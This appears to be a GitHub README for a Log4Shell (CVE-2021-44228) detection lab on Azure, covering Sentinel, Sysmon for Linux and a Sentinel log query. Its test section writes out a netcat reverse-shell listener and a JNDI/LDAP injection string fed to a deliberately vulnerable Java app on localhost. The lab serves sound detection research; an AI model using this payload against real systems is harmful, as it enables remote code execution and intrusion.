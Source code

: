 # CVE-2021-44228 Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
* [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
    * It connects to the Microsoft Log Analytics workspace defined in the template.
* [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
* Linux Syslog Facilities collected
    * `user`
* [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
    * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
    * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)

## Validate Environment

SSH to Ubuntu box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running and ready to go:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```

### Run Application

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd /opt/log4shell-lab/vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab
